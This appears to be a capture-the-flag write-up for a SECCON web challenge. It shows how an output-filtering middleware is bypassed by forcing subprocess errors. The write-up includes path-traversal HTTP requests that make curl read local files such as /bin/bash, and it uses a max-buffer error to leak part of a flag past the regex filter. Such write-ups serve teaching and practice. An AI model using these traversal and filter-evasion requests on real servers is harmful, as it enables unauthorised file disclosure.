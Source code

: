 ```javascript
// WAF
app.use(async (ctx, next) => {
  await next();
  if (JSON.stringify(ctx.body).match(/SECCON{\w+}/)) {
    ctx.body = "🤔";
  }
});
```

In this part, why is `JSON.stringify` used?
Are there cases that `ctx.body` is not `string`?

Yes.

If a subprocess causes an error, `ctx.body` becames the error object:
```javascript
  } catch (err) {
    ctx.body = err;
  }
```

E.g.:
```shell
$ http --path-as-is "http://localhost:3000/aaa"
HTTP/1.1 200 OK
Connection: keep-alive
Content-Length: 147
Content-Type: application/json; charset=utf-8
Date: Tue, 14 Feb 2023 17:04:58 GMT
Keep-Alive: timeout=5

{
    "cmd": "curl file:///app/public/aaa",
    "code": 37,
    "killed": false,
    "signal": null,
    "stderr": "curl: (37) Couldn't open file /app/public/aaa\n",
    "stdout": ""
}
```

If you can cause an error including a substring of a flag so that it don't match with `/SECCON{\w+}/`, you can avoid the WAF and get the substring in the response body.

Here, you need one idea: what would happen if the stdout of a subprocess is very very very large?

```shell
$ http --path-as-is "http://localhost:3000/../../../../bin/bash"
HTTP/1.1 200 OK
Connection: keep-alive
Content-Length: 2320247
Content-Type: application/json; charset=utf-8
Date: Tue, 14 Feb 2023 17:12:31 GMT
Keep-Alive: timeout=5

{
    "cmd": "curl file:///app/public/../../../../bin/bash",
    "code": "ERR_CHILD_PROCESS_STDIO_MAXBUFFER",
    "stderr": "  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current\n                                 Dload  Upload   Total   Spent    Left  Speed\n\r  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0",
    "stdout": "ELF\u0002\u0001\u0001\u0000\u0000\u0000...snip..."
}
```
